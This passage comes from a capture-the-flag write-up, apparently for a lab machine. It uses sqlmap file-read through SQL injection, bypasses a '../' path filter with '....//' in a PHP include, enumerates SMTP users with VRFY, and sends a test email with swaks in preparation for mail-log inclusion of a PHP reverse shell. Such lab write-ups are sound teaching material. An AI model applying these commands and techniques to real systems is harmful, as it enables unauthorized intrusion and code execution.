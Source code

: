 # Shell as michael

On the new site we discovered (marketing), initially, there isn't
anything interesting. We will first read it's source code 
using file read from sql injection, and search for some way in.
We got absolute path to app from nginx config:

```sh
sqlmap -r login.req --batch --threads 10 --file-read=/var/www/market/index.php
```

Read file:

```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
	include("/var/www/market/".str_replace("../","",$file));
}
?>
```

As we can see, there is a "security measure" in place, that replaces
every "../" string with "". This can be easily bypassed, by using
"....//" instead to go back in file hierarchy. This would count as 
arbitrary file read, but since this server executes .php files, if
we manage to upload our own .php file, it will turn into remote
code execution.

Now back to the nmap scan, we can see that there is smtp server
running on our target. We can use it to "send email" (php revshell)
to user michael.

First, we will test if we can really do that.
We check if user michael exists for this smtp server:

```sh
> telnet 10.10.11.166 25
VRFY michael
220 debian.localdomain ESMTP Postfix (Debian/GNU)
252 2.0.0 michael
VRFY xdddd
550 5.1.1 <xdddd>: Recipient address rejected: User unknown in local recipient table
```

As we can see, user michael indeed exists. Now we can send test email
(it should be saved in /var/mail/)

```sh
swaks --to michael --from xkali \
      --header "Subject: Testing" \
      --body "ignore me" \
      --server 10.10.11.166
```
